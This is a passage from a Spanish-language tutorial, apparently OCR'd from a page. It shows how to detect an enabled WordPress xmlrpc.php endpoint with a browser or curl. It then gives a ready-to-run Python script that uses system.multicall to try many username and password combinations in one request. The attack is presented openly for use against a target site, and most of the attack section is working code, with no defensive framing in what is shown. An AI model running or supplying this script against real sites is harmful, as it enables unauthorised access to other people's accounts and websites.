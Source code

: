 Abre tu navegador y accede a:

```
https://ejemplo.com/xmlrpc.php
```

Si ves el mensaje `XML-RPC server accepts POST requests only`, significa que está habilitado.

### **Método con cURL**

```bash
curl -X POST https://ejemplo.com/xmlrpc.php -d '<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>usuario</string></value></param><param><value><string>contraseña</string></value></param></params></methodCall>'
```

Si el archivo está activo, recibirás una respuesta (aunque las credenciales sean incorrectas).

---

## **3. Ataque de Fuerza Bruta a Alta Velocidad usando `system.multicall`**

Usaremos Python y `xmlrpc.client` para explotar `system.multicall` y realizar **miles de intentos en segundos**.

### **Código para un ataque de fuerza bruta súper rápido en XML-RPC**

```python
import xmlrpc.client

# URL del sitio objetivo con XML-RPC habilitado
url = "https://ejemplo.com/xmlrpc.php"

# Lista de usuarios y contraseñas comunes
usuarios = ["admin", "user", "editor"]
contrasenas = ["123456", "password", "admin123", "qwerty", "letmein", "welcome"]

# Cliente XML-RPC
wp = xmlrpc.client.ServerProxy(url)

# Función para realizar el ataque a alta velocidad
def fuerza_bruta():
    multicall = xmlrpc.client.MultiCall(wp)

    # Agregamos múltiples intentos en una sola petición
    for usuario in usuarios:
        for contrasena in contrasenas:
            multicall.wp.getUsersBlogs(usuario, contrasena)
    
    # Ejecutamos el ataque en una sola solicitud
    print("[+] Enviando petición con múltiples intentos...")
    resultados = multicall()

    # Revisamos los resultados
    for i, resultado in enumerate(resultados):
        if isinstance(resultado, list):  # Si la respuesta es válida, credenciales correctas
            print(f"[✅] Credenciales encontradas: {usuarios[i // len(contrasenas)]} - {contrasenas[i % len(contrasenas)]}")
            return

    print("[-] No se encontraron credenciales válidas.")

# Ejecutamos el ataque
fuerza_bruta()
```